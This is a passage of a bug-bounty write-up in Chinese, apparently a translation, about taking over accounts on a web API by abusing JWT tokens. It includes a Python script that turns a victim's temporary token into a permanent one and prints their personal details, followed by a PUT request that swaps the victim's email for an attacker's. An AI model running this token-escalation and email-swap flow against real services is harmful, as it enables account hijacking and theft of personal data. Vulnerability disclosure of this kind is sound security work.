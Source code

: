 ```
# A sample code that obtains a permanent JWT token when provided a temporary JWT token
import json
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

jwt_token=raw_input("Enter token > ")
exploit_url = "https://secure.site.com:443/aapi/v1/authentications/token"
exploit_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://www.site.com", "authorization": "Bearer "+str(jwt_token), "content-type": "application/json", "origin": "https://www.site.com", "Connection": "clos"}
retrieve_token = requests.get(exploit_url, headers=exploit_headers,verify=False)

if retrieve_token.status_code==200:
    s=json.loads(retrieve_token.text)
    print '[+] Token valid!'
    print '[i] Retrieving information:'
    print '\n[*] Permanent JWT Token: %s\n[*] First name: %s\n[*] Last name: %s\n[*] User ID: %s\n[*] Email Addr: %s'%(s['jwt_token'],s['user']['first_name'],s['user']['last_name'],s['user']['id'],s['user']['email'])

else:
    print 'One-time token expired, try to retrieve token again.'
```

代码与`/token API`端点通信，并从响应中检索JWT令牌，该令牌用于与API端点通信。整个应用程序都使用API来更改帐户信息和其他功能。

[![img](assets/20190207123304-75979dcc-2a91-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190207123304-75979dcc-2a91-1.png)

# Time to play

现在，使用永久的JWT令牌可以与API进行通信，就像我现在已经有了受害者的JWT令牌。API端点`/aapi/v1/users/1`接受PUT请求。那我就能偷梁换柱，将受害者的邮箱地址改为攻击者的邮箱地址，之后更改密码实现完整的用户劫持。通过使用受害者的JWT令牌发送以下请求，我能够将受害者的电子邮件更改为`attacker@shawarkhan.com`：

```
PUT /aapi/v1/users/1 HTTP/1.1
Host: secure.site.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rw:56.0) Gecko/20100101 Firefox/56.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
authorization: Bearer Victims_JWT_here
content-type: application/json
origin: https://site.com
Content-Length: 200
Connection: close

```